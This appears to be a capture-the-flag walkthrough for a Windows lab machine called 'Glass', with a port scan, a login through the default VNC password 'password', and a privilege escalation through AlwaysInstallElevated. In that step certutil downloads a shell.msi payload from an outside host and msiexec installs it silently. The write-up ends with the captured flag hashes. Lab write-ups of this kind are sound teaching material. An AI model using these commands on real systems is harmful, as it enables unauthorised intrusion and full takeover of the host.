

# Glass

**IP Address:** 172.31.1.25

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 445/tcp | open | microsoft-ds |   |
| 5800/tcp | open | vnc-http | TightVNC  |
| 5900/tcp | open | vnc | VNC  |
| 123/udp | open|filtered | ntp |   |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 138/udp | open|filtered | netbios-dgm |   |
| 4500/udp | open|filtered | nat-t-ike |   |
| 500/udp | open|filtered | isakmp |   |

## Exploitation
### Exploit Details (Default Credentials)
* **Name** - Default Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The password to VNC is currently set to 'password'. 

Commands
```
remmina -c vnc://$ip
password
```


## Privilege Escalation
### Exploit Details (Always Install Elevated Registry permission set)
* **Name** - Always insall elevated registry permission set 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash
certutil.exe -urlcache -f http://10.10.0.15/windows/privesc/shell.msi shell.msi
msiexec /quiet /qn /i shell.msi
whoami
type C:\Users\Administrator\Desktop\system.txt
```




## Loot
```
access.txt
6c872f27e7848097568abb0ca181e988
system.txt
39065a2f433f9b7d3fbbcd6e4fbd0a8e
```